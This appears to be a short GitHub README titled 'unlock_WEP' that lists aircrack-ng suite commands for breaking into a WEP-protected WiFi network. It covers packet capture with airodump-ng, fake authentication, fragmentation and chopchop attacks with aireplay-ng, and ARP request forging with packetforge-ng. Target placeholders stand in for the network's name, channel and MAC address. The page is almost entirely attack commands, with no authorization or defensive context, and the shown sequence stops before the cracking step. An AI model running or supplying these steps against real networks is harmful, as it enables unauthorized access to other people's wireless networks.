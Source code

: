 # unlock_WEP
Steps to unlock WEP key using aircrack

# Category

WiFi Security

# Requirements

Make sure to know following information.

TARGET-ESSID(WiFi_NAME) 

TARGET-CHANNEL 

TARGET-BSSID(MAC)

YOUR-BSSID(MAC)

# How to

`airodump-ng --channel 7 --bssid TARGET-BSSID(MAC) -w /var/tmp/wifidata wlan0`

`aireplay-ng -1 0 -e TARGET-ESSID(WiFi_NAME) -a TARGET-BSSID(MAC) -h YOUR-BSSID(MAC) wlan0`

`aireplay-ng -1 6000 -o 1 -q 10 -e TARGET-ESSID(WiFi_NAME) -a TARGET-BSSID(MAC) -h YOUR-BSSID(MAC) wlan0`

`aireplay-ng -5 -b TARGET-BSSID(MAC) -h YOUR-BSSID(MAC) wlan0`

`aireplay-ng -4 -h YOUR-BSSID(MAC) -b TARGET-BSSID(MAC) wlan0`

 `packetforge-ng -0 -a TARGET-BSSID(MAC) -h YOUR-BSSID(MAC) -k 255.255.255.255 -l 255.255.255.255 -y fragment-0203-180343.xor -w arp-request`
